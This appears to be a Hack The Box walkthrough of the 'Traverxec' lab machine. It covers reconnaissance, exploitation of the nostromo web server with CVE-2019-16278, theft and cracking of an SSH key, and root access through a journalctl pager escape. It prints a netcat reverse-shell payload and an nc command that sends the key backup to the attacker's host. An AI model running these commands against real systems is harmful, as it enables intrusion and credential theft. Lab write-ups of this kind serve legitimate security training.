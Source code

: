 ```yaml
---
title: "[HTB] Traverxec"
date: 2023-12-17 17:31:44
tags: 
- [machine]
- [easy]
categories:
- [HTB]
---
```


<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    <img src="traverxec.png" title="Traverxec" width="300px" height="300px" style="pointer-events: none;">
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      <img src="linux.png" alt="Linux" width="20px" height="20px" style="margin-left: 5px;">
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>jkr</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>November 16, 2019</span>
    </div>
  </div>

</div>


## Recon

### Nmap


``` bash
$ nmap -sC -sV 10.10.10.165 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 16:08 WET
Nmap scan report for 10.10.10.165
Host is up (0.058s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.04 seconds
```

| Port |       Service       |
|:----:|:-------------------:|
|  22  |         SSH         |
|  80  | HTTP Nostromo 1.9.6 |


## Foothold

### CVE-2019-16278

After googling for nostromo 1.9.6 exploit, we can find [CVE-2019-16278](https://www.exploit-db.com/exploits/47837)
![](Traverxec/whoami.png)

We just need to setup a listener and run a revshell

``` bash
$ nc -lvnp 1234
```
``` bash
$ python CVE-2019-16278.py 10.10.10.165 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 1234 >/tmp/f"
```

![](Traverxec/revshell.png)

## Lateral Movement

/etc/passwd
![](Traverxec/passwd.png)

With this we know there is a user called David

### SSH backup

Right now we cannot access David's home folder, however by looking at the nostromo's config files, there is a public_www folder in the user's home folder that we have access to

/var/nostromo/conf/nhttpd.conf
![](Traverxec/nhttpd.png)

And we can see that there is a backup for ssh id files
![](Traverxec/sshbackup.png)


We can use netcat to transfer the file to our machine

On local machine:
``` bash
$ nc -lvp 1337 > backup-ssh.tgz
```

On remote server:
``` bash
$ nc 10.10.14.9 1337 < backup-ssh-identity-files.tgz
```

We now just need to extract it's contents and we confirm that we have David's ssh private key (id_rsa)

``` bash
$ tar -xvf backup-ssh.tgz
```
![](Traverxec/extractedkey.png)


If we try logging in now, we will see that this key has a password

``` bash
$ chmod 400 id_rsa
$ ssh -i id_rsa david@10.10.10.165
```
![](Traverxec/idrsapassword.png)

To decrypt the password, we can use ssh2john and then john to decrypt the password

``` bash
$ ss2john id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![](Traverxec/idrsapassworddecrypted.png)

Now we know the id_rsa password, we can just ssh into the machine as David and get the user flag
![](Traverxec/sshdavid.png)
![](Traverxec/userflag.png)

## PrivEsc

### sudo journalctl

David has a bin directory in it's home folder, and a bash script called "server-stats.sh" inside.

If we look into it's contents we can see that it runs journalctl as root, and since David can run this file, we can use this to run a command as root
![](Traverxec/journalctl1.png)

If we run this command, it will just print the output and nothing else happens, however, the -n5 flag means it will print only print 5 lines in the output.
We can shrink our terminal to where we can only see less than 5 lines, and when we run the command, we will see that the binary "less" runs.
And since this happens in the command that was ran as root (journalctl) we can run any command as root.

``` bash
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
```
![](Traverxec/lessroot.png)

Now we just get the root flag
![](Traverxec/rootflag.png)